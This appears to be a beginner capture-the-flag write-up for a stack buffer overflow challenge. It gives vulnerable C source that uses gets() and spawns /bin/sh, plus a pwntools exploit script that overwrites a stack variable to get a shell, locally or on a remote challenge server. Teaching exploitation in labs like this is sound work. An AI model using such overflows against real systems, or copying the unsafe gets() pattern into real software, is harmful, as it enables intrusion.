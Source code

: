 ## Intro to PWN 1

Start by running checksec on the binary.

![checksec](./screenshots/checksec.png)

We have a 64 bit binary.  NX and PIE enabled.  We have source code.  Lets view it.

#### main.c
```C
#include <stdio.h> 
#include <stdlib.h> 


int main(){
    char buf[0x100]; 
    int overwrite_me; 
    overwrite_me = 1234; 
    puts("Welcome to PWN 101, smash my variable please.\n"); 
    gets(buf); 
    if (overwrite_me == 0x1337){ 
        system("/bin/sh"); 
    } 
    return 0; 
} 
```

Here we see we just need to overwrite the variable "overwrite_me" to get a shell. Here is what the stack looks like for main.

![stack_frame](./screenshots/stack_frame.png)

We need to skip 268 bytes then append 0x00001337 in little endian.  Lets write our exploit.

#### exploit.py
```python
from pwn import *

binary = context.binary = ELF("./dist/pwnme")

if not args.REMOTE:
    p = process(binary.path)
else:
    p = remote('0.cloud.chals.io', 19595)

payload =  b""
payload += b"A"*0x10c
payload += p32(0x1337)

with open("payload", "wb") as fp:
    fp.write(payload)

p.sendline(payload)
p.interactive()
```

Run the exploit.

![exploit](./screenshots/exploit.png)

Complete!